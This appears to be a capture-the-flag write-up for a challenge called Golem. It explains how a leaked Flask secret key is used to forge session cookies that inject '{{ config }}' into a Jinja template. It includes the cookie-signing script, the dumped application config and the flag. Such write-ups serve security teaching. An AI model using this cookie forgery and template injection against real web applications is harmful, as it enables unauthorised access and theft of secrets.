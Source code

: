 ```python
```

This script led us to two other files:

* `flag.py`
* `key.py`

We were unable to directly access `flag.py` via the LFI, as it was filtering out any requests with the word "flag". However, we could access `key.py`, which revealed the secret key being used to sign session cookies: `7h15_5h0uld_b3_r34lly_53cur3d`.

With this key, and a small Python script I wrote, it was now possible to create and sign any custom cookie to be used in requests made to the Golem web application.

Within the `/golem` route, the Flask application creates a template from a string, but does not sanitise the session data that is injected directly into it. Meaning that it is possible to use the session cookie to inject arbitrary server side markup into the Jinja template.

As there was no context object being passed to the template renderer, the only things we had available to us were in the global scope (see http://flask.pocoo.org/docs/0.12/templating/).

However, as the flag was being stored in the global context, the previously created cookie signing script could be modified to inject the `config` object into the output, which would in turn lead to giving us the contents of the `FLAG` variable in the output:

```python
from flask import Flask, session, redirect, url_for, escape, request, render_template_string, render_template

app = Flask(__name__)

@app.route('/')
def index():
    session['golem'] = "{{ config }}"
    template = '{{ config }}'
    return render_template_string(template)

app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
```

Now, after running the script above, we could visit the local web app being served, grab the session cookie from it, and re-use that when making a POST request to the `/golem` route of the Golem web app, which outputs the below:

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 's', 'DEBUG': False, 'SECRET_KEY': '7h15_5h0uld_b3_r34lly_53cur3d', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

**Flag:** `ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

<hr>
